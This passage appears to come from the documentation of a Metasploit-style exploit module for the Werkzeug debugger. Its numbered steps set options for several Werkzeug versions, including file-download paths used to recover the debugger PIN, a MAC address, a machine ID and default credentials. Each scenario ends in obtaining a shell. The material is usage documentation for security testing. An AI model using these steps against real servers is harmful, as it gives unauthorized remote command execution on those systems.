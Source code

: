 ### Werkzeug 0.11.5 using debugger (POST)

50. Do: `set METHOD POST`
51. Do: `set TARGETURI /postdownload`
52. Do: `set REQUESTBODY file=`
53. Do: `run`
54. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 0.10.1 (No authentication required) using /console

55. Do: `unset METHOD`
56. Do: `unset TARGETURI`
57. Do: `unset REQUESTBODY`
58. Do: `set RPORT 83`
59. Do: `set TARGET 3`
60. Do: `set AUTHMODE none`
61. Do: `set MACADDRESS <mac-address>`
62. Do: `set MACHINEID <machine-id>`
63. Do: `run`
64. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 0.10.1 (No authentication required) using /debugger (GET)

65. Do: `set TARGETURI /getdownload?file=`
66. Do: `run`
67. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 0.10.1 (no authentication required) using debugger (POST)

68. Do: `set METHOD POST`
69. Do: `set TARGETURI /postdownload`
70. Do: `set REQUESTBODY file=`
71. Do: `run`
72. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 3.0.3 using debugger (POST) and known PIN with Basic HTTP Auth

73. Do: `set RPORT 84`
74. Do: `set TARGET 0`
75. Do: `set AUTHMODE known-PIN`
76. Do: `set HTTPUSERNAME admin`
77. Do: `set HTTPPASSWORD admin`
78. Do: `set PIN 1234`
79. Do: `run`
80. You should see a cookie being logged then get a shell.

### Werkzeug 3.0.3 interactive debugger disabled
